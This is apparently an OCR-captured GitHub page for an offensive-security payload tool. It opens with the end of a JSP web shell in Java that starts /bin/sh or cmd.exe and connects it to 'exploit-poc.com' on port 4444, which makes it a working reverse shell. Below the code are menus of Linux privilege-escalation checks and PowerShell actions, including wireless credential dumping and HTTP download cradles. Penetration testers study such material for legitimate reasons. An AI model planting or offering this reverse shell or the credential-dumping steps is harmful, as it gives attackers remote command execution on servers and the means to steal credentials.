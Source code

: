 ```
		  BufferedReader tC  = null;
		  BufferedWriter uYY = null;
		  try
		  {
			tC  = new BufferedReader( new InputStreamReader( this.zP ) );
			uYY = new BufferedWriter( new OutputStreamWriter( this.l7 ) );
			char buffer[] = new char[8192];
			int length;
			while( ( length = tC.read( buffer, 0, buffer.length ) ) > 0 )
			{
			  uYY.write( buffer, 0, length );
			  uYY.flush();
			}
		  } catch( Exception e ){}
		  try
		  {
			if( tC != null )
			  tC.close();
			if( uYY != null )
			  uYY.close();
		  } catch( Exception e ){}
		}
	  }
	
	  try
	  {
		String ShellPath;
	if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
	  ShellPath = new String("/bin/sh");
	} else {
	  ShellPath = new String("cmd.exe");
	}
	
		Socket socket = new Socket( "exploit-poc.com", 4444 );
		Process process = Runtime.getRuntime().exec( ShellPath );
		( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
		( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
	  } catch( Exception e ) {}
	%>
```

## LinuxCommands
- Suid
- VersionSystem
- KernelVersion
- EnvironmentVariables
- ServiceSettings
- CronJobs
- UsersHost
- PortForwarding
- wildcardPrivesc
## PowershellCommands
- local_sys_enum
- lastpatchlist
- lastpatchlist_wmic
- envVar
- envVar_cmd
- wlan_creddump
- powershell_http_dl
- cmd_cert_http_dl
- domain_name
